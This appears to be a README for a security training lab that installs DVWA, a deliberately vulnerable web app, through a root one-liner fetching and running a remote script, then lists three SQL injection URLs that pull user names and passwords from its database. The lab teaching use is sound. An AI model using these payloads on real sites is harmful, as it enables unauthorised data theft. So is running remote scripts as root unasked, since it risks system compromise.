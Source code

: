 We will be installing a DVWA application on a Debian-based Linux distribution.

**Installation Requirements**
- **Operating System**: Debian-based system (Kali, Ubuntu, Kubuntu, Linux Mint, Zorin OS)
- **Privilege**s: Execute as root user

**Installation Steps**

*One-Liner*

This will download an install script written by @IamCarron and run it automatically. This would not be included here if we did not trust the author and the script as it was when we reviewed it, but there is always the chance of someone going rogue, and so if you don't feel safe running someone else's code without reviewing it yourself, follow the manual process and you can review it once downloaded.

```bash
sudo bash -c "$(curl --fail --show-error --silent --location https://raw.githubusercontent.com/IamCarron/DVWA-Script/main/Install-DVWA.sh)"
```

*Manually Running the Script*

1. Download the script:
``` bash 
wget https://raw.githubusercontent.com/IamCarron/DVWA-Script/main/Install-DVWA.sh
```
2. Make the script executable:
``` bash 
chmod +x Install-DVWA.sh
```
3. Run the script as root:
```bash 
sudo ./Install-DVWA.sh
```

#### Testing SQL injection attacks

On Attacker's machine, insert the payload in the DVWA application to test the SQL injection attack. The payload is as follows:
```
http://<DVWA_IP_ADDRESS>/DVWA/vulnerabilities/sqli/?id=a' UNION SELECT "Hello","Hello Again";-- -&Submit=Submit
```
```
http://<DVWA_IP_ADDRESS>/DVWA/vulnerabilities/sqli/?id='' UNION SELECT first_name,password FROM users -- ';
```
```
http://<DVWA_IP_ADDRESS>/DVWA/vulnerabilities/sqli/?id=' OR 1=1 -- ';
```
![alt text](asset/image-13.png)
